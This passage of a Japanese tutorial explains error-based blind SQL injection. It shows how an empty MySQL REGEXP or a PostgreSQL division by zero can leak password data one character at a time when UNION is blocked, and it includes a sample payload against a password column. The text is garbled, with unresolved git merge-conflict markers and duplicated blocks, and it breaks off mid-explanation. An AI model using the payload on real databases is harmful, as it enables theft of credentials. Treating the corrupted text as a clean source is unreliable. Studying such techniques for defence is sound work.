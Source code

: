 | 'HOGE' regexp '^HO' |
+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
|                   1 |
+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
1 row in set (0.00 sec)

mysql> select 'HOGE' regexp '';
ERROR 1139 (42000): Got error 'empty (sub)expression' from regexp
<<<<<<< HEAD
-----

　この現象を利用すると、次のようにしてデータを探ることが可能になる。

-----
（略） where 'a' regexp ( if( ( select count(*) from hoge where password like 'A%' ), '', 1 ) );
-----
=======
\-\-\-\-\-

　この現象を利用すると、次のようにしてデータを探ることが可能になる。

\-\-\-\-\-
（略） where 'a' regexp ( if( ( select count(*) from hoge where password like 'A%' ), '', 1 ) );
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　IFキーワードを利用して、該当するデータがある場合には空の文字列を、そう
でない場合には1をREGEXPに与えている。この例では「Aで始まる」レコードがあ
る場合にはSQLエラーが発生し、そうでない場合には正常終了する。

　このようにして、MySQLではUNIONキーワードが禁止されていても、条件によっ
てSQLエラーを発生させる方法でデータの取得が可能であることがわかった。


<<<<<<< HEAD
■0x05.) PostrgeSQLの場合
=======
### 0x05 PostrgeSQLの場合
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　同じように、PostgreSQLで故意にエラーを起こす方法がないか探してみた。す
ると、あっけなく見つかった。ゼロ除算である。MySQLの場合には結果がNULLにな
るが、PostgreSQLではSQLエラーが発生するのだ。

<<<<<<< HEAD
-----
template1=# select 1/0;
ERROR:  floating point exception! The last floating point operation either exceeded legal ranges or was a divide by zero
-----

　これを利用し、次の方法でデータを探ることができる。
